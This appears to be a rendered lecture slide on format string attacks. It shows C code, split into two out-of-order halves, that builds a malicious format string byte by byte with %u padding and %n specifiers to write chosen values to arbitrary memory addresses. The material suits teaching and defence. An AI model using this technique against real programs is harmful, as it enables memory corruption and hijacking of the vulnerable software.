

Writing to large memory addresses
16. sprintf(buffer, "%%%du%%n", width_field);
17. strcat(format, buffer);

// third byte
18. write_byte = 0x442;
19. already_written += width_field;
20. already_written %= 0x100;
21. width_field = (write_byte - already_written) % 0x100;
22. if (width_field < 10) width_field += 0x100;
23. sprintf(buffer, "%%%du%%n", width_field);
24. strcat(format, buffer);

    // fourth byte
25. write_byte = 0x501;
26. already_written += width_field;
27. already_written %= 0x100;

28. width_field = (write_byte - already_written) % 0x100;
29. if (width_field < 10) width_field += 0x100;
30. sprintf(buffer, "%%%du%%n", width_field);
31. strcat(format, buffer);

1. static unsigned int already_written, width_field;
 2. static unsigned int write_byte;
 3. static char buffer[256];

 4. already_written = 506;

    // first byte
 5. write_byte = 0x3C8;
 6. already_written %= 0x100;

 7. width_field = (write_byte - already_written) % 0x100;
 8. if (width_field < 10) width_field += 0x100;
 9. sprintf(buffer, "%%%du%%n", width_field);
10. strcat(format, buffer);

    // second byte
11. write_byte = 0x3fA;
12. already_written += width_field;
13. already_written %= 0x100;
14. width_field = (write_byte - already_written) % 0x100;
15. if (width_field < 10) width_field += 0x100;